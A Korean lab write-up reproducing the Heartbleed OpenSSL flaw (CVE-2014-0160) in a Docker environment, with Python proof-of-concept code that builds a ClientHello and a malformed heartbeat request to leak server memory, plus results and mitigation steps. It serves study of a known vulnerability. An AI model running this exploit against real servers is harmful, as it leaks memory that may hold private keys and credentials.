




https://heartbleed.com/

https://www.cve.org/CVERecord?id=CVE-2014-0160

https://github.com/vulhub/vulhub/tree/master/openssl/CVE-2014-0160

https://nvd.nist.gov/vuln/detail/CVE-2014-0160#range-22357996

https://www.forumsys.com/2014/04/10/how-to-fix-openssl-heartbleed-security-flaw/

# 취약점 요약

- CVSS : 7.5 (high)
- TLS/DTLS Heartbeat 확장에서 Hearthbeat Request의 Payload 길이를 검증하지 않아 클라이언트가 요청한 길이만큼 서버 메모리의 일부가 반환된다.

# 취약 조건

- 서버가 TLS Heartbeat 확장을 지원하는 OpenSSL 1.0.1~1.0.1f 버전을 사용 중이어야 한다.
- Heartbeat 확장이 활성화되어 있어야 한다.

# 환경 구성

- Ubuntu 14.04
- OpenSSL 1.0.1f
- OpenSSL s_server (OpenSSL 테스트 서버)
- TLS 1.0
- Python 3

# 재현 절차

```bash
docker compose up -d
docker logs heartbleed-server
```

Docker 이미지를 생성하고 OpenSSL 1.0.1f를 빌드하고, PoC 실행 로그와 Heartbeat 메모리 유출 결과를 확인한다.

PoC는 다음과 같이 동작하도록 구현하였다.

<aside>

1. TCP 연결
2. ClientHello 전송
3. ServerHello 수신
4. 악성 Heartbeat Request 전송
5. Heartbeat Response 수신
6. 메모리 누출 확인
</aside>

# PoC 코드 및 실행 결과

## 1. TLS Handshake

- TLS Handshake를 시작하기 위해 ClientHello 패킷을 생성한다.

```python
def build_client_hello():
    version = b'\x03\x01'

    random = struct.pack(">I", int(time.time())) + b'\x50' * 28

    ciphers = (
        b'\x00\x2f'
        b'\x00\x35'
        b'\x00\x0a'
        b'\x00\x05'
    )

    hello = (
        b'\x01'
        + b'\x00\x00\x31'
        + version
        + random
        + b'\x00'
        + struct.pack(">H", len(ciphers))
        + ciphers
        + b'\x01\x00'
        + b'\x00\x00'
    )

    record = (
        b'\x16'
        + version
        + struct.pack(">H", len(hello))
        + hello
    )

    return record
```

```python
def send_client_hello(sock):
    packet = build_client_hello()
    sock.sendall(packet)
```






## 2. Heartbeat 패킷 생성

```python
def build_heartbeat():
    body = (b'\x01' + struct.pack(">H",0x4000) + b'A'*16)

    return (b'\x18' + b'\x03\x01'+ struct.pack(">H",len(body)) + body)
```

- Payload 길이를 16384바이트로 선언한다. 실제로는 ‘A’ 16바이트만 포함한다.
- 취약한 OpenSSL은 이 길이를 검증하지 않아 선언된 길이만큼 메모리를 읽어 응답한다.

## 3. Heartbeat Request/Response




- Heartbeat Request는 약 19바이트(0x0013)만 전송되었지만,
- Heartbeat Response는 약 16KB(0x4013)의 데이터를 반환하였다.
- 이는 서버가 Payload 길이를 검증하지 않아 프로세스 메모리 일부가 반환되었음을 의미한다.

## 4. Heartbeat Response 수신 및 메모리 유출 확인

```python
leaked = b''
    try:
        while True:
            data = sock.recv(4096)
            if not data:
                break
            leaked += data
    except socket.timeout:
        pass
```

- 서버가 반환하는 Heartbeat Response를 최대 4096바이트씩 반복하여 수신한다.
- 수신한 데이터를 leaked 변수에 누적 저장한다.
- 취약한 OpenSSL에서는 Heartbeat Response 뒤에 서버 메모리 일부가 포함되어 전달되므로, 전체 응답을 모두 수신하기 위해 반복해서 읽는다.

```python
if len(leaked) <= 100:
    print("[-] No leak")
    return

print("[+] Heartbleed Confirmed!")
print("[+] Leak size:", len(leaked))
```

- 수신한 데이터의 크기를 확인하여 Heartbleed 취약점 발생 여부를 판단한다.
- 정상적인 Heartbeat Response는 매우 작은 크기이지만, 취약한 OpenSSL에서는 요청한 길이만큼 추가 메모리가 반환되어 응답 크기가 비정상적으로 증가한다.

## 5. 결과



- 서버 메모리에서 총 17,180 바이트의 데이터가 반환되었다.
- ASCII와 HEX 출력을 통해 서버 메모리 일부가 포함된 것을 확인할 수 있다.

# 대응 방안

- Heartbeat Request의 Payload 길이 검증이 필요하다.
- OpenSSL 1.0.1g 이상 버전으로 업데이트한다.
